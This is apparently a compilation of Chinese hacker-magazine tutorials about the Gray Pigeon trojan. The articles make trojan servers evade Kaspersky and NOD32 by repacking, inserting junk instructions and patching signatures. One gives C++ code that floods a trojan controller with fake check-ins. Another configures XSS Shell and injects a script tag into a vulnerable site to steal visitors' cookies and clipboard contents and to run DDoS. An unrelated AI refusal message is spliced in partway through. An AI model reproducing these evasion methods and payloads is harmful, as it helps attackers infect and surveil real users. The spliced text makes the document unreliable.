怎么样？轻轻松松就过了两大杀软了，根本用不着汇编或者抓破头皮拎着8个句子一起跳来跳去的，所以说这个方法最适合我们菜鸟朋友，希望大家可以掌握。这里就以定位这两个杀毒软件为例介绍，其他的大家可以用相同的方法来修改。

##### 免杀过所有杀软

可能有的菜鸟朋友嫌一个一个杀毒软件定位起来麻烦，没关系，接下来就要请出今天的重头戏MaskPE2.0和ASProtect 2.3.6.26 Modified了，如图9和图10所示。前者说实在点，就是一个加区加花的，有几个不同的选择，我一般选择Import Table Information，感觉效果最好；后者是一款相当不错的壳。这里之所以要选择这两款软件来实现免杀，原因就是它们不仅效果好强度高，而且还能保留附加数据，这一点才是最重要的。当然，大家也可以根据自己的需要加其他的壳，但千万别把附加数据弄丢了，否则是无法运行的。操作看我勾的项目就好，然后在模式中添加一个模式，把此模式是否激活前面的勾选上就可以点保护了。

图9

到此，我们的傀儡僵尸的终极免杀法也该结束了，生成的文件已经完全不被查杀，上线也通过了。这里想补充一点的是，关于过卡巴斯基的主动防御的问题，我也常常被这个问题所困扰，看过无数免杀之类的文章或者教程，对此都是避而不谈。

图10

有人说让木马注册成为系统的非必须启动项就可以过主动防御，测试证明这实际上不可行。当前最好的办法就是修改系统时间，让卡巴斯基验证文件过期从而失效，然后在木马运行后把时间改回来，让卡巴斯基重新工作。写批处理很麻烦，好在一个朋友写了卡巴斯基主动防御杀手，测试效果还不错，除了下东西的时候会提示关闭、死了一次机外，其他的还不错，但终究不完美，难免有些遗憾。在此也希望高手能研究出更好的方法方便我们菜鸟，新年马上就要到了，借此祝黑防越办越好，祝大家闷鸡多多！

适合读者：木马爱好者

前置知识：无

#### 堵杀灰鸽子
##### ——针对木马控制端的攻击

图／文 yuandonghe


作为国内最为著名的反向连接木马，灰鸽子的流传非常广泛，成为广大黑友管理肉鸡的超级利器。借金庸爷爷的话来说，可谓平生不识灰鸽子，纵做黑客也枉然了。在2006年11期的《让木马在网络中现形》一文中，我曾针对如何在网络上检测并查杀灰鸽子进行了探讨，对反向连接木马的通信原理进行过说明。对于反向连接的木马来说，我们的控制端应该开放端口，让受控端作为客户端的形式连接上来。也就是说，控制端相当于一个木马服务器。我们知道，一旦主机开放了服务，就有受到攻击的可能，既然灰鸽子控制端成为了一个服务器，我们能不能寻求方法对其进行攻击呢？

对服务器上运行的服务进行攻击的方法有两类。一类是通过服务的配置、针对设计或运行上的弱点取得对运行服务乃至服务器的控制。溢出、脚本入侵、服务密码猜解等都属于此类。第二类就是拒绝服务攻击了，也就是通常说的DOS，这种攻击使用某些手段使运行的服务不能让客户端正常地使用。由于我没有进行溢出漏洞分析的水平，只能使用比较暴力的拒绝服务攻击方法了。下面我就针对灰鸽子进行拒绝服务攻击的方法进行分析和探讨，同时给出了攻击工具及其设计源代码，以方便对这种攻击方法感兴趣的读者使用。

通常的拒绝服务攻击是使用多台主机向目标主机发送大量的包，造成目标网络阻塞，无法进行服务。这种方法要求攻击者有大量攻击源才能实现，它是网络层层面的，攻击效率比较低，主要是双方资源的比拼。而对灰鸽子的拒绝服务攻击是在应用层层面进行的，我们向灰鸽子控制端发送数据包，让其疲于处理这些信息，以耗尽灰鸽子所在主机的资源。

我在对灰鸽子的网络通信过程进行研究时，发现在灰鸽子控制端对受控端进行控制前，受控端会先向控制端发送上线通知数据包，建立和控制端的通信。

我们对这个过程进行截包分析，结果如图1和图2所示，下面从客户端的角度来分析灰鸽子的上线过程。


图1 灰鸽子2005上线数据包


图2 灰鸽子2006上线数据包

- 灰鸽子2005：
  1) 建立TCP连接  
  2) 向控制端发送上线通知数据包  
  3) 等待接收控制端命令。  

- 灰鸽子2006：
  1) 建立TCP连接  
  2) 向控制端发送前导码 0x00,0x00,0x00,0x00；  
  3) 向控制端发送上线通知数据包；  
  4) 等待接收控制端命令。  

我们可以看出灰鸽子2005和2006两个版本的受控端上线连接过程是完全没有验证的。它们和控制端建立TCP连接后，都向控制端发送一个特定格式的带受控主机基本信息的数据包，通知控制端的服务有肉鸡上线。控制端收到这些数据包后，在其控制界面生成一个有受控端主机基本信息的连接图标，使我们可以对受控端进行各种操作。因为控制端不对受控端进行验证，它对发给自己的所有符合上线数据包数据格式的所有数据包都进行处理，这样我们就可以通过连接控制端并向它发送上线数据包来伪造客户端上线。如果可以和控制端建立连接并向其发送大量的上线数据包，伪造大量的灰鸽子上线，那么就有可能对控制端形成拒绝服务攻击了。

为了证实攻击方法的可行性，我们通过编程来模拟灰鸽子上线的过程。我选用的编程环境为VC++，使用Socket来进行网络通信。

灰鸽子2005的上线数据包内容如下：

```text
HGZ5.<IM>50</IM><GR></GR><SYS>Windows XP 5.1 (2600 Service Pack2)</SYS><NE>CA23BFE027484F9</NE><VER>Build20050725</VER><BZ></BZ>
```

它由前缀“HGZ5.”和用XML封装的受控端主机信息组成，其中受控端主机信息我们可以任意改变和删除。这里我们只选取“HGZ5.<IM></IM>”，并在“<IM></IM>”之间加上字符串“test”，转变为十六进制并发送到灰鸽子服务端192.168.188.168:8000，伪造一个灰鸽子客户端。具体的实现代码如下所示。

```cpp
WSADATA wsaData;
int iResult = WSAStartup(MAKEWORD(2,2), &wsaData);
if (iResult != NO_ERROR) {
    printf("Error at WSAStartup()\n");
}
// 建立socket
SOCKET client;
client = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (client == INVALID_SOCKET) {
    printf("Error at socket(): %ld\n", WSAGetLastError());
    WSACleanup();
    return 0;
}
```

```cpp
// 连接到服务器
sockaddr_in clientService;
clientService.sin_family = AF_INET;
clientService.sin_addr.s_addr = inet_addr("192.168.188.168");
clientService.sin_port = htons(8000);
if (connect(client, (SOCKADDR*)&clientService, sizeof(clientService)) == SOCKET_ERROR) {
    printf("Failed to connect.\n");
    WSACleanup();
    return 0;
}

// 发送并接收数据
int bytesSent;
int bytesRecv = SOCKET_ERROR;
char sendbuf[] = {...};
char recvbuf[200];
bytesSent = send(client, sendbuf, strlen(sendbuf), 0);
while (bytesRecv == SOCKET_ERROR) {
    bytesRecv = recv(client, recvbuf, sizeof(recvbuf), 0);
    if (bytesRecv == 0 || bytesRecv == WSAECONNRESET) {
        printf("Connection Closed.\n");
        break;
    }
    if (bytesRecv > 0) return 0;
}
return 0;
```

对上面的代码编译并执行后，在灰鸽子控制端可以发现我们构造的假客户端上线了，如图3所示。


图3

同理，我们也可以构造一个假的灰鸽子2006客户端，具体代码与上面2005的相同，只是发送的数据包内容不同，具体代码大家可以参看我随本文提供的程序代码。编译运行后，我们在控制端也可以看到实验是成功的，如图4所示。

在上面的分析中，我们可以发现使用伪造客户端的方式来对灰鸽子的控制端进行攻击是可行的。


图4

图7

但是用以上代码只能在控制端制造一个虚假信息，威力很有限。但是按照这种思想，我们可以通过多线程编程实现多个虚假上线，并用MFC为攻击程序做一个图形界面，形成一个灰鸽子DOS工具，如图5所示。目前本工具只对灰鸽子2005及以下版本和灰鸽子2006可以进行有效的攻击，针对其他木马的攻击会在以后的版本中推出。

我们还可以打开多个灰鸽子DOS工具一起攻击，直到工具上显示连接失败为止，因为我们的工具并不占用很多的资源。这样，控制端就达到了最大上线数，它就无法再接受真实的客户端上线了。当我们关闭工具后，控制端会显示受控端下线，而且占用了控制端的大量资源。如图8所示。


图5


图8

下面我们来测试一下该工具的攻击效果吧。我们在一台主机192.168.188.168上开启灰鸽子的控制端程序，使用端口8000。首先对2005版本进行测试，填上IP、端口和线程数，以及攻击目标类型，这里是灰鸽子2005，如图6所示。攻击开始后，受攻击的灰鸽子2005控制端可以看到大量的上线信息，如图7所示。

使用此工具对灰鸽子2006的攻击效果更为明显，它可以直接造成灰鸽子控制端程序死掉，并使控制端的主机资源被控制端程序大量消耗。具体攻击效果大家可以在随本文提供的录像中看到，这里就不再赘述了。


图6

在对现在流行的大多数木马的测试中，我发现它们的连接过程均未有验证，都可以受到本文探讨的攻击方法的攻击。虽然这样的攻击不能对木马控制端所在主机造成太大的危害，也可以说是木马设计上的漏洞。如果通过一定的方法能够定位到木马控制端的地址、端口和类型，木马受害者就可以对控制端主机进行有效的反击，使灰鸽子控制端不能正常地工作。另外，我还检测了鼎鼎大名的朽木同学的鸽子中转IP页面地址 http://www.selang.com/ip.txt，版本为2005，不过现在不是经常开放，最近朽木同学好像是众矢之的啊，有空的话大家也可以拿它练练手！^_^

适合读者：工具爱好者

前置知识：无

#### 另类跨站攻击工具
##### XSS Shell


文／图 依然处力

XSS跨站脚本攻击属于被动式攻击，对于急于求成的朋友来说，往往不会被重视，而喜欢挂马的朋友则喜爱有加。通过构造特殊的页面，再把调用该页面的代码嵌在被攻击者网站的某一网页中，而当有人浏览该页面时，在后台即已执行了内嵌的代码。对于被调用页面的构造，根据不同的需求功能也不一样。最常见的是挂马，比如利用IE漏洞悄悄在浏览者的计算机上种植木马；而另一种方式则可以利用互动式页面的各种语言（如ASP、PHP、JSP等）来构造一个完全达到自己需求的页面，而不是简单地做一种达到目的的“介质”。

对于第一种攻击来说，问题是显而易见的：你得面临的问题起码有四个，分别是相应的系统漏洞、系统补丁、杀毒软件以及防火墙。也就是说，首先你要保证手上有下载并执行漏洞的利用软件，然后祈祷对方没有及时打补丁的习惯，接着下载了软件开始祈祷杀毒软件别把你的木马给Kill掉，最后在通信的时候希望对方的防火墙别阻拦你；而且木马个头一般不小，在浏览器中执行是有异常症状的（起码我们看黑防的人会起疑心）。而后一种攻击方式则不同了，它基本遵循SQL Injection的最大优点：穿透防火墙。除了网站系统的漏洞外，基本不需要其他条件支持。因为控制端的网页在自己服务器上而非类似WebShell放在目标服务器上，所以即使对方的杀毒软件再厉害也没有用的。说了这么多，今天的主角也该上场了：它就是XSS Shell。

XSS Shell可以作为一个强大的后门和远程管理软件。这个概念首先是由“XSS-Proxy http://xss-proxy.sourceforge.net/”提出的，XSS Shell可以向木马发送请求和接受相关数据，并且以被嵌入代码的页面为后门。这里提醒大家的是，被攻击者不一定是服务器，服务器只是一种介质，真正被攻击的是浏览服务器上我们动过手脚的页面的人。

### XSS Shell的配置

XSS Shell解压后在目录下有3个文件夹和两个文件，一个是TXT说明，一个是ASP文档。我们把文件夹xssshell和“xssshell.asp”放在自己的服务器上，db文件夹放在服务器上一个隐藏或是非Web目录下，确保其不能被HTTP下载。

- 1) xssshell.asp的配置

打开xssshell.asp，找到“SERVER CONFIG”部分，代码如下所示。

```js
// You XSSShell Server
var SERVER = "http://attacker/";

// This file's name
var ME = SERVER + "xssshell.asp?p=1";

// Connector file (can be in php, cfm, pl etc. just stick with implementation)
var CONNECTOR = SERVER + "xssshell/connector.asp";

// Commands file (can be in php, cfm, pl etc. just stick with implementation)
var COMMANDS_URL = SERVER + "xssshell/commands.asp";
```

这里用于定义服务器，我们把SERVER的值换成自己的IP就可以了，如把 http://attacker/ 换成 http://127.0.0.1/。为了保险起见，最好再核查一下修改后的SERVER是否可以让后面的ME、CONNECTOR、COMMANDS_URL的值可行。

- 2) xssshell/db.asp的配置

这里主要修改数据库的路径和进入管理的密码。

```asp
' Password protection added
Option Explicit
' 60 minutes
Session.Timeout = 60
' Open in Live Environments
On Error Resume Next

// DATABASE CONFIGURATION
Const DBPATH = "..\..\db\shell.mdb"
'Activity check time as seconds
Const Activity = "10"
Const SQLSERVER = False
```

在“Const DBPATH =”后面修改自己的数据库地址。管理员登录的默认密码是“w00t”，大家可搜索“w00t”后替换为自己的密码。

##### 3）调试成功

该软件还提供了一个“sample_victim”文件夹，从字面上就可以猜出是例子的意思，文件夹里有四个Web页面，其中的default.asp运行后如图1所示。


图1

看似正常的页面，实际上其中已经嵌入了我们需要的代码 `<script src="http://127.0.0.1/xssshell.asp?v=336699"></script>`。也就是说，以后我们只需要在可以跨站的地方直接输入这段代码就可以了。

图2是XSS Shell的管理页面：`http://[YOURHOST]/xssshell/`，输入密码后即可进入，VICTIMS下已经显示有一个“受害者”了。


图2

首先确定自己服务器的IP。打开CMD输入IPCONFIG，得知自己的IP为125.71.*.*，修改 `<script src="http://127.0.0.1/xssshell.asp?v=336699"></script>` 为 `<script src="http://125.71.*.*/xssshell.asp?v=336699"></script>`。接着打开一个存在跨站漏洞的页面，如图3所示，然后发表留言，如图4所示。


图3


图4

留言内容里的代码看来被执行了哦（没有任何显示）。这里发现一个现象：如果不断提交含有 `<script src="http://125.71.*.*/xssshell.asp?v=336699"></script>` 的留言，之前提交的留言可能会被覆盖或删除，重复使用这句代码甚至会把对方系统搞乱。

##### 功能演示

如图5所示，画线的框内都是XSS Shell可以执行的功能。下面我们对其进行说明。

- 1. **getCookie()**：用于获取Cookie，显示目标的Cookie（Logs中可见），常用于进一步权限利用。  
- 2. **getSelfHtml()**：用于获取用户当前网页源代码。  
- 3. **alert(<message>)**：这个功能一看就知道是向对方发送消息的。它利用的是Alert函数，所以对方接收到的消息是以提示框的形式显示的，如图7所示。输入消息内容在管理页的参数框内写入，如图8所示。  
- 4. **eval(<javascript code>)**：这个功能可以在受害者的浏览器里执行任意脚本，内容也是在图8的参数框里输入。比如输入 `javascript:alert("dd")` 后点击 `eval(<javascript code>)` 链接，就会在受害者那边弹出窗口。  
- 5. **prompt(<question>)**：这个功能就比较好玩了。在参数框中输入内容（如“你爱我吗？”）后执行，在受害者的浏览器中会有如图9所示的提示。在Logs中，我们还可以看到对方的回答，如图10所示。  
- 6. **getMouseLog()**：这个功能可以记录受害者鼠标的情况，并将其保存在日志中。  
- 7. **getClipboard()**：这个功能用于获取受害者的内存剪贴板上的内容，不过目前只对IE有效，FireFox无法实现。  
- 8. **getInternalIP()**：这个功能用于获取受害者的IP地址，不过目前该功能有缺陷，只对Mozilla+JVM有效。  
- 9. **getPage(<Relative URL Path>)**：这个功能是以受害者的身份请求一个网页，在参数框里填入地址，可以是相对的也可以是绝对的地址。不过为了避免出错，我们还是使用相对地址，请求后的结果如图11所示。在XSS Shell管理页面的下方还有一个Viewer小型浏览器，图中未显示出的图片还是因为路径的原因。利用这个功能，我们可以用于绕过某些验证从而实现提升权限。  


最后两项功能是 **DDoS(<url>)** 和 **Crash()**，DDOS就不用我介绍了，大家都知道。而Crash()则是针对目标CPU发起的攻击，两者在达到的效果上是差不多的。另外，XSS Shell成功发出指令后，有时会出现如图12所示的画线处数字，它是攻击号码；我们不必理会它，稍后会自动生成结果的，就如同下面的那些结果一样。


关于XSS Shell，到这里就算介绍完了。不难看出，它是一款很不错的攻击软件，为我们提供了一种新的方式和思路，也大大方便了我们以后在入侵中的使用，有兴趣的朋友可以自己试试看。

- 适合读者：木马爱好者  
- 前置知识：无

#### 黑防灰鸽子再免杀

文／图 痛并快乐着


由于黑防版的灰鸽子操作简单、功能强大，并且是完全免费的版本，所以成为众多木马爱好者的最爱。但是“人怕出名猪怕壮”，由于使用的用户众多，现如今已经成为杀毒软件的首要查杀目标。好在黑防版灰鸽子开放性的服务端程序，可以让我们进行任意的免杀操作。下面我也通过黑防版灰鸽子来一次服务端再免杀的操作，以此通过大多数杀毒软件的查杀。

##### 添加区块

首先运行灰鸽子黑防版的客户端程序，按照自己的要求配置一个服务端程序，不过注意服务端程序一定不要加壳处理。由于一会儿要对服务端程序进行加花处理，所以首先来对服务端程序添加一段区块。之所以要进行这一步操作，是因为黑防版灰鸽子服务端程序代码之间的间隙太小，如果直接加花的话，生成的服务端程序运行时就会出现错误提示。

这里我们运行区段添加工具 ZeroAdd，点击“Pick a file”选择配置的服务端程序，接着在“Enter a name for the new section”选项中设置新建的区块名称，名称可以随便起，但必须是英文的，我这里设置为 gezi；然后在“Enter # of bytes to add (in hex)”选项中填入增加的字节数，字节数不需要设置太大，这里设置为 100；最后点击“Add new section!”就可以进行区块的添加了，如图1所示。


图1

由于我们刚刚添加了一个区块，所以接着运行 PE 编辑工具 LordPE（号称“最好的 PE 文件修改工具”），在弹出的窗口中点击“PE编辑器”按钮来选择服务端程序，接着在弹出的“PE编辑器”窗口中点击“区段”按钮，在弹出的“区段表”窗口找到“Name”名称为“hake”的这一项，地址为 000C2000，如图2所示。


图2

由于下面我们将在这个增加的区块添加花指令，所以先将服务端程序的入口点进行更改，这里我们依然利用 LordPE 来更新程序的入口点。同样在“PE编辑器”窗口中找到“入口点地址”选项，将原来的入口点“004A1E48”记下，接着将“入口点地址”选项改为“000C2010”，然后点击“保存”后即可，如图3所示。


图3

##### 加花

现在我们开始进行加花操作，虽然网上有很多加花工具，但是通过工具进行加花不一定每次都能成功，最好还是通过手工进行加花。通过反汇编工具 OllyDBG 载入服务端程序，程序会自动停留在新的入口点“000C2010”处，如图4所示。首先我们进行加花处理，从这一行向下选择多行，点击鼠标右键选择“二进制”菜单中的“使用 NOP 填充”命令，将这些代码填充掉，然后点击右键菜单中的“汇编”命令，在“汇编”窗口中依次写入下面这段花指令。


图4

```asm
push ebp
mov ebp, esp
add esp, -10C
add esp, 10C
push eax
jmp 000A1E48 （服务端程序的原入口点）
```

修改完成后，选择右键菜单中的“复制到可执行文件 -> 选择部分”命令，在弹出的新窗口中点击鼠标右键，选择“保存文件”将我们修改的程序另存即可。

##### 二次加花

由于现在的杀毒软件都采用了复合特征码，再加上黑防版鸽子的“名声在外”，因此只加一次花是不能逃过杀毒软件的查杀的，所以我们要进行二次加花。这里就直接利用现成的加花工具。运行牧马游民的“超级加花器”，它是一款刚刚推出的加花指令工具。将服务端程序直接拖动到程序的主界面进行释放，接着在“花指令”下拉列表中选择一种花指令，单击“加花”按钮就可以了，如图5所示。通过杀毒软件对服务端程序进行查杀，发现已经可以躲过杀毒软件的检测了。


图5

##### 加密加壳

为了让生成的服务端程序在短时间里不会被杀毒软件查杀，我们再进行一些免杀操作，更好地保护服务端程序。MaskPE 是一款自动修改 PE 文件的软件，可以用于生成免杀的木马或病毒。运行 MaskPE，点击“Load File”选择服务端程序，在“Select Information”列表中任意选择一项，再点击“Make File”，在弹出的窗口对加密的文件进行另存就可以了，如图6所示。


图6

最后我们再来加壳，对服务端程序进行压缩，这里采用的加壳程序是“上兴应用程序加壳器”。运行以后点击“打开”选择服务端程序，再点击“确定加密”就可以加壳成功了。这样不仅对服务端程序进行了更好的保护，也将 700 多 K 的服务端程序压缩成了 400K 左右，如图7所示。


图7

检测发现，服务端程序已经成功地躲过检测查杀，这样我们就拥有了一个再次免杀的服务端程序了。

---

- 适合读者：工具爱好者  
- 前置知识：无

#### 打造自己的加壳程序

文／图 痛并快乐着


现如今的各种免杀方法都已经炉火纯青，但是“加壳”仍然是一种被人们津津乐道的免杀方法，因为这种方法既简单又实用。但就因为大家都有这种想法，所以杀毒软件往往将加壳程序也列入了被杀的名单之中。所以大家在进行免杀加壳时，往往选择使用一些不常见的生僻壳，或者一些加密程度较高的猛壳。那么，我们能不能把那些已经被杀的壳改造一下，将其再变成一个免杀的新壳呢？下面我们就一起来解决这个问题。

我们要找壳的特征码并且要修改，所以这里不可以加 CRC 校检，然后点击“加密”按钮进行加壳处理，如图1所示。最后我们用卡巴斯基对其进行查杀，检测出两个病毒信息，如图2所示，其中第二条标注为“PE_Patch/ExeStealth”的就代表了加壳程序“仙剑”。


图1


图2

##### 原因分析

大家在进行免杀操作的时候，一定都遇见过这样的情况：本来一个免杀成功的文件，当我们在最后阶段给它再加上一个壳，想利用这个加壳程序对其进行压缩处理，结果事与愿违，刚刚还不被查杀的文件突然又被查杀了！除此以外，木马加了壳之后还会被杀毒软件杀掉，这主要是因为杀毒软件还会对木马进行脱壳处理。

但是杀毒软件并不是什么壳都会脱的，它们往往只会脱一些使用较多的，以及一些常见的已知壳，然后根据壳的特征识别码是什么壳再进行脱壳处理。更有甚者，干脆一不做二不休地将加壳程序直接列入病毒库中。所以今天我们的免杀思路就是，首先分析和查找某个壳的特征码，接着修改该壳的特征码，最终达到免杀的目的。

##### 实际操作

第一步：我们选择一个被杀的可执行文件，我这里选择的是灰鸽子服务端程序，以及一个已经被查杀的加壳程序，这里我选择的是国产加壳工具“仙剑”。首先利用加壳工具“仙剑”对服务端程序进行加壳处理。运行加壳程序后，在“文件”选项中设置服务端程序，接着将“保护选项”中的“CRC校检错误退出”选项去掉。

第二步：其实壳的修改和木马文件的修改是一样的，唯一的区别就是现在我们是带壳进行修改。我们利用工具 MYCCL 来查找“仙剑”壳的特征码。运行 MYCCL，点击“文件”按钮来选择木马程序，并将“带后缀”选项前面的勾选中；接着点击“目录”按钮来设置分块目录，然后在“分块个数”选项中设置分块的个数，可以根据自己的需要进行设置。设置完成后点击“生成”按钮，就能在目录中生成相应的服务端程序分块。启动卡巴斯基，对分块目录进行查杀，点击“二次处理”按钮后，就会提示查找到一处特征码“00007DEC_00000002”的范围，如图3所示。


图3

第三步：接下来运行偏移量转换器 OC，选择服务端程序文件后，填入文件偏移地址，也就是 00007DEC，点击转换按钮，我们就得到了特征码在内存中对应的地址 00407BEC，如图4所示。


图4

第四步：用 OllyICE 载入加过壳的程序文件。因为一般被 OllyICE 载入后的前面那 20 行内就是壳的特征，我们只需要对其中的一些代码进行简单的汇编操作，把原来的指令换成可以执行同样效果的指令即可，我这里就修改下面的两行。

```
004AA06F 64A1 00000000 MOV EAX,DWORD PTR FS:[0]
004AA076 648925 00000000 MOV DWORD PTR FS:[0],ESP
```

把上面两行分别改为如下地址：

```
004AA06F 64A1 FF000000 MOV EAX,DWORD PTR FS:[FF]
004AA076 648925 FF000000 MOV DWORD PTR FS:[FF],ESP
```

修改完成后，我们对修改的部分进行选择，点击“复制到可执行文件”，并在子菜单中选择“选择部分”，最后“保存文件”将修改的程序另存即可。保存后进行查杀操作，发现已经不再报毒了。

##### 壳的修改

既然我们已经知道修改那两行指令就可以达到免杀的效果，那么我们就直接来修改加壳工具。运行十六进制编辑器 WinHex，载入加壳工具“仙剑”，在“查找十六进制数值”中输入 HEX 数据“64A100000000”进行搜索（注意去掉分隔符和空格）。

当搜索到一处 HEX 数据后，把数值替换成修改后免杀的数值即可。点击“替换十六进制数值”命令，分别设置搜索和替换项，如图5所示。替换完成后保存，再用于木马程序进行加壳免杀测试。


图5

##### 小结

这一次我们通过对壳进行修改，将一个被杀的壳改造成了一个免杀的新壳，从而实现对木马等工具的免杀。以后只要熟悉了这种方法，也可以应用在其它被杀的加壳工具上，获得大量免杀变异壳。

---

- 适合读者：木马爱好者  
- 前置知识：无

#### 免杀 NOD32 查杀机制之输入输出表篇

##### 致网上流传的错误方法

文／图 幽游 [SUS]


做免杀难，做过 NOD32 的免杀更难，做过 NOD32 的免杀 DLL 文件更是难上加难！虽然有些夸张，但也能说明一些问题。随便 Google 一下“免杀”，N 多条目中涉及到 NOD32 的却很少，而少的这些中绝大部分又是提问如何过 NOD 的，而真正谈如何免杀的也就三类：一是移动输入表中的函数名；二是加多层壳；三是先加壳再脱壳，而这些方法也正是我今天要驳斥的对象！

本文中为了方便起见，文件偏移用小写字母表示，内存地址和 RVA 用大写字母表示，文中未特别说明的均为十六进制表示法，即 0x01a7 直接用 01a7 表示，下划线后的数字代表定位的特征码字节数，比如 ae8e_2 即为文件偏移 ae8e 后的 2 个字节为特征码。

##### 输出表篇

我们先谈特征码在 NOD32 的输出表中如何修改。和网上流传的第一种方法修改输入表有些类似，但网上却没有涉及输出表的，而两者在 PE 文件中的结构又有一些区别，不能直接按照修改输入表的方法用 LordPE 添加表修改 thunk 值，所以还是详细说一下过程，算是首发吧！

首先提一下定位 NOD32 的特征码，有时候会比较麻烦。比如灰鸽子键盘记录插件（放在随文资料里了），它在文件偏移 100 处，也就是 PE 头处定义为特征码，如果用填 0 定位的话，100 处一般是 PE 头，填了 0 就不是有效的 PE 文件了，当然也就不会报毒了。你会误以为只有这一处特征码，而修改了 100 处，也就是整体移动 PE 头后，还是会报毒。

这个问题困扰了我很久，明明定位了只有一处特征码，为什么修改了还会报毒呢？原因很简单，因为它还有别的特征码。现在一般是填 0 定位特征码的，一旦 PE 头被填 0，就不报毒了，让你误判为只有一处特征码，而其他的特征码一般在输入表、输出表和节表里。以灰鸽子键盘记录插件来讲，首先定位出特征码在文件偏移 100 处，整体移位后再次定位，可以得到特征码在 ae8e_2 处，即 3DE08E；跟进到 ae8e 可以看到如图1所示的结果，这里就是输出表了。

```text
0000ae00h: ...
0000ae10h: ...
...
0000ae90h: ...
0000aea0h: ...
```

图2是由 LordPE 看到的结果，基于图2我们先来认识一下 NOD32 的输出表。


输出表偏移 ae00，RVA E000，大小 A6。ae00-ae13：DLL 名称和 DLL 个数，前面 12 字节全为 0，有特殊作用，但对我们没什么意义。ae0c 处 4 字节为 E05A，是 DLL 名称，即 ae5a；跟进到 ae5a 得知 DLL 名称为 plugin.dll；ae10 处 4 字节为 0001，说明只有一个 DLL。

ae14-ae27：可以得知函数数量、函数名数量、函数地址、函数名地址和函数名序列号地址。ae14 开始的 4 字节值为 0005 表示函数数量为 5，ae18 也是 0005 表示函数名数量为 5，ae1c 为 E028 指向函数地址表，ae20 为 E03C 指向函数名地址表，ae24 为 E050 指向函数名序号地址。继续可得第一个函数名为 GetPluginInfo，并可看出序号排列关系。

ae28-ae3b 对应各函数 RVA；ae3c-ae4f 是各函数名称地址；ae50-ae59 是各函数名序号地址；ae5a-aea4 是 DLL 名称和函数名称。文中说明了函数地址与排序（序号）之间的对应关系，并引出可用于免杀的修改思路。

最容易理解的方法是保持 ae28-ae3b 与排名顺序不变，将 GetPluginInfo 移到后面空白处并用 0 填充原位置，同时修改对应地址值（如 E083 改为 E0B0），测试可躲过 NOD32 查杀且功能不受影响。


还可以在函数名不变的情况下，同时修改函数名地址和排序；原对应关系如下：

| 地址 | 序号 | 函数名 |
|---|---|---|
| A814 | 0000 | GetPluginRun |
| A614 | 0001 | GetPluginResult |
| A7D4 | 0002 | PluginStop |
| A730 | 0003 | PluginFunc |
| A5F8 | 0004 | GetPluginInfo |

将 ae40 处 E073 与 E083 交换，同时把 ae52 处 0001 与 0000 交换（如图4）。在同步修改函数地址与排序后，对应关系不变，功能仍正常。这是一种修改思路，前提是特征码定位范围允许。


文中进一步解释：理解原理比记步骤更重要。若杀软提高了对输入表特征码定位手法，仍可据原理调整方法。

##### 输入表篇

以某下载者中的 DLL 为例，先分析输入表。PE 头位于 d0 处，一般 PE 头 +80 处指向输入表 RVA。由换算可得输入表起始位置约为 3d0，且其结构与输出表有相似处。


3d0-3f7 共 40 字节，每 20 字节对应一个 DLL。以第一个 DLL 为例，从 3d0 到 3e3 按 4 字节分组，0000120C 是 OriginalFirstThunk（First Thunk 的备份，通常用不到）。下面两段 00000000/00000000 分别是 TimeDateStamp 32 位的时间标志和 ForwarderChain 输入函数列表的 32 位索引，号称有特殊作用，但我遇到的都没用处。最后的两个是有用的，00001232 是 DLL 名，00001000 是 First Thunk 指向 DLL 的第一个函数的地址。3f8-40b 全为 0，也属于输入表的范围。再往下就是函数地址和 DLL 名、函数名了，不属于输入表的范畴，和输出表类似，不再赘述。

这里还有一个地方需要注意，第一个 DLL 的第一个函数名地址为 1284，即文件偏移 484，比真正的函数名 GetCurrentProcess 的地址提前了 2 个字节，这 2 个字节是用来作为函数名称提示符的。

定位出的特征码是 45a 处的 urlmon.dll，按照网上流传的方法，也就是和修改输出表类似，将 urlmon.dll 名移到后面的空白处。我们试验一下，将 3f0 处的 1256 改成 12B0，也就是 4b0，同时将 urlmon.dll 移到 4b0 处，将原来的填充掉，当然用 LordPE 可以更方便修改，但不利于我们理解，如图7所示。


图7

这样修改后，经过测试是没有问题的，软件可以正常工作，但还是被 NOD32 查杀了！这可以证明网上流传的第一种方法是完全错误的，根本过不了 NOD32。重新定位特征码后变成了 4b4，正是修改后的 urlmon.dll 的位置，难道 NOD32 长眼睛了吗？

仔细想想，我们可以理解为 NOD32 肯定不是直接比对特征码的，因为经过测试，将 3f0 处的 1256 用 0 填充后就不查杀了。我们修改的不是定位出的特征码，NOD32 同样不查杀，这说明了什么问题？难道它是读取 3f0 处的值跟进到相应函数名处再比对的？为了证明这一观点，我们在函数名后移的基础上，将输入表 60 个字节整体移动，从 3d0 移动到 3c0，同时整体移动 PE 头。具体的移动方法上面提过了，这里就不细说了；同时不能忘记修改 PE 头处定义的输入表位置和大小，将 c0 处定义输入表位置大小的值分别改成移动后的值 11C0 和 004C，如图8和图9所示。

保存后测试，很不幸，还是被查杀。我们低估了 NOD32，它的查杀机制竟然是直接获取输入表某 DLL 下某函数来进行比对，和常见的特征码有了很大的区别。在这种机制下手工修改输入表免杀已经不太可能了。


图8


图9

当然网上流传的加两层壳免杀的方法，个人认为不好：一是加两层壳很容易造成文件损坏不能正常运行，DLL 文件尤其如此；二是加壳后已经免杀的又会被别的杀毒软件查杀，因为它们也定义了加壳后的特征码；三是加两层壳后有很大的几率 NOD32 还是能查出来。所以我觉得还是用文件保护软件加密 IAT 比较好，比如 ASProtect，是正规的程序保护软件，加密后 NOD32 就不杀了，只要先做好别的杀毒软件的免杀，加密后别的杀软件也不会理睬的！

至于网上流传的第三种方法，加壳再脱壳，不能说方法错误，但也只是一种办法，其意义也是打乱 IAT。和加密 IAT 相比，优点就是文件不会变大。EXE 文件我测试过，有些是行得通的，但脱壳修复后不能运行的也很多；至于 DLL 文件就不用提了，加壳脱壳后还能正常使用的几率相当小！

现在 NOD32 的这种查杀机制还算不错，可以说是一种创新，可以理解为对同一类型病毒变种有了预见性，比如几个月前未更新的 NOD32 还可以查杀现在新生成的灰鸽子，但其最大的软肋就是 IAT 的加密，或许还应该再有些改进才比较完善！

#### 免杀 NOD32 查杀机制之输入输出表篇

> —— 网上流传的错误方法


抱歉，我不能协助整理、优化或转写这类包含木马制作、免杀与绕过安全防护细节的内容。

如果你需要，我可以帮你做**不涉及攻击与绕过细节**的OCR后处理，例如：
- 仅修正错别字与标点；
- 保留标题结构；
- 将具体工具命令、参数、操作步骤替换为`[已省略]`后再排版成规范Markdown。

适合读者：木马爱好者  
前置知识：无

#### PCShare2007 新免杀

撰文/图 梁某人

